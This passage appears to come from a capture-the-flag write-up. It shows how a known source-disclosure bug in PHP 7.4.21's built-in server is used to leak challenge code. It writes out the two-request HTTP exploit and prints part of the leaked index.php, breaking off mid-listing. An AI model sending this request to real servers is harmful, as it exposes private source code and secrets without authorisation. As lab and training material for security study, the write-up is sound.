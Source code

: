 From the response, we can take a look at its PHP version `7.4.21`. Since, there is no way to do LFI (Local File Inclusion), I've searched the internet if we could see a bug in this version. Suprisingly, I've found one that allows us to obtain server code here.

Based from the web "[https://blog.projectdiscovery.io/php-http-server-source-disclosure/](https://blog.projectdiscovery.io/php-http-server-source-disclosure/)", you can manipulate the internal server code to force publish the php code. This bug is fixed on later releases `PHP 7.4.22+`.

The code used are:

```
GET /flag.php HTTP/1.1
Host: <challenge ip>

GET /xyz.xyz HTTP/1.1
```

Here we see, the first tries to obtain the source code but the second one points to a non-existant path which cause the PHP server to send the code not execute it.

![](/assets/img/image3.png)

Then, we repeat this process until we've obtained all the code.

index.php

```php
<?php
include "flag.php";
highlight_file(__FILE__); 
error_reporting(0); 

$a = $_GET['a'];
$b = $_GET['b'];

if(!preg_match("/\?a=notnull/i", $_SERVER['REQUEST_URI'])){
    exit("<h2>Oops :(<h2>");
}

if(preg_match("/^[0-9+-\/\*e ]/i", $num)){
    exit("<h2>Oops Oops :(<h2>");
}

if (is_null($a)){
    if (is_numeric($num)){
        echo $flag;
    }
```